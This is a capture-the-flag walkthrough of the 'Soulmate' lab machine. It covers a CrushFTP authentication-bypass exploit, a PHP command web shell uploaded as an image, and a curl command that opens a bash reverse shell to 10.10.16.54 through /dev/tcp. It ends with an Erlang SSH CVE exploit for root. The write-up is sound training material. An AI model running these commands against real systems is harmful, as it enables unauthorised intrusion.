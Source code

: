 # Soulmate

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*UfZ4t_D4nnULwpnc0mbcYg.png" alt=""><figcaption></figcaption></figure>

## Recon

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*glQHLpGmeSPZzr_8NRehOA.png" alt=""><figcaption></figcaption></figure>

No interesting directories were found on main application **soulmate.htb** after some enumeration vhost was found.

### Vhost Discovery

<figure><img src="https://cdn-images-1.medium.com/max/800/1*rA78vL7rX64flCkpPBRhZg.png" alt=""><figcaption></figcaption></figure>

\


I also tried default creds of crushftp which was crushadmin:crushadmin but they didn’t work out well so, went to hydra but it didn't help.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*T4qL5lE0CUVmDGyYQvm3Ag.png" alt=""><figcaption></figcaption></figure>

\


### Crush-ftp Auth Bypass

\


So i didn’t get any version of the application but i saw this..

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*fvDVOv18j37t3gcuc_KzcA.png" alt=""><figcaption></figcaption></figure>

It adds a user and gets you login into application.

```
python 52295.py --target ftp.soulmate.htb --exploit --new-user hacker --password hacker  --port 80
```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*7J2U-9QufbNbI3R9hOVWmw.png" alt=""><figcaption></figcaption></figure>

We have successfully logged-in as admin.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*Q3TDjGUVziMcWHA_AjhN1g.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*pTaVeRrIsxQaAgQCQ_C3Mw.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*2Dqay4aMtHv_BGMBtXgBbA.png" alt=""><figcaption></figcaption></figure>

There was a telnet client idk how its working.



## Initial Foothold

\


So now go to the admin panel and select files take the folder of **app** to your user and then allow all the permission especially upload,rename. After that upload the file containing php cmd as an png file.

And upload it as a profile image in **soumate.htb**

```
echo '<?php if(isset($_REQUEST["cmd"])) system($_REQUEST["cmd"]); ?>' > shell.p
```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*e9p1T1sJGFx8LbdWmS_8SA.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*ZTdVQOCffR5j1swxsMz1oA.png" alt=""><figcaption></figcaption></figure>

Now the uploaded file will be poped up in profiles folder as you already gave permission to rename the file you can change it back into php file.

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*3Ore7de8XCTUksHDP2pRPA.png" alt=""><figcaption></figcaption></figure>

After that go to the profile pic and click open image at new tab and add ?cmd=\<command> to see if its working

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*UgH1_RRslaWGU0fK18AYWg.png" alt=""><figcaption></figcaption></figure>

if its working its time to get reverse shell.



### Reverse shell



```
curl "http://soulmate.htb/assets/images/profiles/6_1757710607.php?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.10.16.54/9001%200%3E%261'"

```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*2E7pmnEEtLH4m4D1SuH1uw.png" alt=""><figcaption></figcaption></figure>

```
curl "http://soulmate.htb/assets/images/profiles/6_1757710607.php?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.10.16.54/9001%200%3E%261'"
```

That’s it we got Shell into the box.

## Root Access

<figure><img src="https://cdn-images-1.medium.com/max/800/1*VnH3v6geO4lGVZWiqQob5g.png" alt=""><figcaption></figcaption></figure>

While enumerating i got this.

Its running a erlang\_ssh.service so i tried to get the version of service.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*fAIzXTA_i_ExnKSuagpQPQ.png" alt=""><figcaption></figcaption></figure>

We got the version now.

\


Get the exploit from github [https://github.com/TeneBrae93/CVE-2025-3243.git](https://github.com/TeneBrae93/CVE-2025-3243.git).

modify the code and this command to spawn a reverse shell.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*nnniaQR8RUk8ZwU-Hg8NZw.png" alt=""><figcaption></figcaption></figure>

\


And transfer it into victim machine.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*MLlnbpSqbhFe-XustJwduw.png" alt=""><figcaption></figcaption></figure>

```
python3 CVE-2025-3243.py -lh 10.10.16.54 -lp 4444 -rh 127.0.0.1 -rp 2222
```

Since the erlang port is running on local host we dont have a choice but to run this on the victim machine .

> Note run this in victim machine -lh is your vpn ip and -lp is your listener ip.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*3_0xssfNOoPnmzuenbs4NA.png" alt=""><figcaption></figcaption></figure>

And that's it we got root on boxx!!!!

<img src="../../.gitbook/assets/file.excalidraw (1).svg" alt="" class="gitbook-drawing">
